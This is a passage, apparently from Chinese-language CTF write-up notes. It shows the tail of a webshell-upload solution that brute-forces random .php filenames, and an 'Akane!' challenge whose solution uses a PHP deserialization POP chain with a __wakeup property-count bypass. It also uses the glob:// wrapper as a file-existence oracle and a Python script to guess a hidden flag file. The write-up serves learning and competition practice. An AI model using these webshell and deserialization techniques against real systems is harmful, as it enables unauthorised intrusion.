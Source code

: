 		  ["qOludG61S5.php","Od9PEN9abH.php","hjJEb3aXIj.php","4LJUMbt7KE.php","jxb7y6nkiU.php","3FiSjKRS8B.php","8MseNPE7RN.php","ONmZlfJN8O.php","ff7PICfWR1.php","Vdb0yTSZUQ.php","RbeFCrmPVW.php","nqRsrMzI0I.php","vKv9hAXZj2.php","kSLA9bCrrI.php","mp24hLAR7v.php","sVHiFFRN9h.php","PVzpLHu7XW.php","pihqFZmO58.php","EGrXrD4WPs.php","awuRo77tQr.php","KDklZjBUwW.php","cZXLprxox5.php","PnVICRqhr8.php","dWt8vMy3lT.php","JbcLChD9um.php","3fA2AWKdkq.php","nJqsEuYE8w.php","2wKtqrQM8o.php","43gQs1YDow.php","HftkaUbEZm.php","R0EiVqDNCK.php","1RD6wS6VoU.php","12YaHcsQjl.php","5GvxeMbceM.php","Ej8yFHbObE.php","RyTUIeffR5.php","ZympEVXHAb.php","4COrkIpqDW.php","qTzUISSKQg.php","n1IATr9OoZ.php","Okm6nDOzUF.php","9W70gxVILZ.php","qLR7JmiWwQ.php","esifphkfyE.php","RMpscbzPii.php","mdZByqotCM.php","Pr5zvdp4Di.php","TEDpNpiu8c.php","8adHdi8cBI.php","sBOQ8ojC1N.php","EeFJtYPm7o.php","q6bjiOuC5V.php","1n6RV1Q2zu.php","4NK9dQ2pOz.php","rPujR4Iw8g.php","eD4DtPYWLD.php","Gf2H4cJQPb.php","yPCSVWiVzN.php","ZvOOcRR0vK.php","VfcMbRnLdA.php","Ka6YkAR182.php","BWEkPtCh5R.php","cIMXJPwj2V.php","pMVfTVZY9s.php","fAeODTpYXF.php","XcTiFHQyV0.php","sRuFOQ6MeN.php","ZS9pnVN82n.php","pUWlnEskj6.php","uqFEbmrGZf.php","kamG2S4GkE.php","eRuziBFsBU.php","ALKkZvmAxi.php","SSDK2bgbVJ.php","fyLISrbu7E.php","bfUnaCBXal.php","ayMW2xVsBL.php","94TlyElurv.php","jvXs1cIFtB.php","0bToD8xtQ8.php","yKeqLBCTbY.php","8bLhU84Q6s.php","HrM1IfF8JP.php","nzCVzGQPCL.php","frP0tk9Yvc.php","fSB8Vpy2WN.php","LwT875IMtj.php","lM7gjlS1NV.php","5o8esZiB8u.php","S40VgPY3Du.php","hjc9s8hkwz.php","6oCByW1Jkx.php","32hP6j66S5.php","Ox8VziZ8xs.php","g3A1rKQelT.php","AJfSaOMBO9.php","oclz3lD4qL.php","cPwVfYvBZ0.php","CcuTWphVfP.php","zqvOPtuaF7.php","Yr5nDYFC35.php","zztQQkd47x.php","dqijVRkHqg.php","6GfYamYbjj.php","WjaJplNQx8.php","kUftwcW4Ks.php","C0XpOJbcT1.php","cF49IbCOwt.php","URyte0fOpD.php","iR8mBwqu40.php","MhZfh9MtuL.php","wZNyiKzCQm.php","nVdT27EKOO.php","vYdF9gJajR.php","pyqeUfB0sJ.php","NDusC7RtUn.php","Ofh5JLPjxI.php","buFfk62fdE.php","SBa2ydlzeq.php","a9wPpJDg8m.php","rM3U3JyG2J.php"]
		  100%|██████████| 121/121 [00:05<00:00, 21.04it/s]
		  {123: ['ZvOOcRR0vK.php']}
		  ```
	- 最后访问上传的webshell`ZvOOcRR0vK.php`即可
- # Akane!
  collapsed:: true
	- pop
	  collapsed:: true
		- ```php
		  $idol = new Idol();
		  $idol -> Akane = $_GET["path"];
		  $hoshino = new Hoshino();
		  $hoshino -> Ruby = $idol;
		  $s = serialize($hoshino);
		  $s = str_replace('O:7:"Hoshino":2', 'O:7:"Hoshino":3', $s);
		  echo "st"."art" . base64_encode($s) . "st"."op";
		  ```
	- 用`glob://`伪协议可以判断是否存在文件
	- fuzz发现有文件长度为`[9, 31]`的文件，后缀为php
	- 爆文件名得到`TheS4crEtF1AgFi1EByo2takuXX`（后缀为php），访问即可
	  collapsed:: true
		- ```python
		  def get_pop_payload(path):
		      api_url = "http://127.0.0.1:8081/pop.php"
		      r = base_get(api_url, params = {
		          "path": path
		      })
		      return r.text.partition("start")[2].partition("stop")[0]
		  
		  def test_path(path):
		      payload = get_pop_payload(path)
		      r = base_get(url, params = {
		          "tuizi": payload
		      })
		      return "Kurokawa Akane" in r.text.partition("</code>")[2]
		  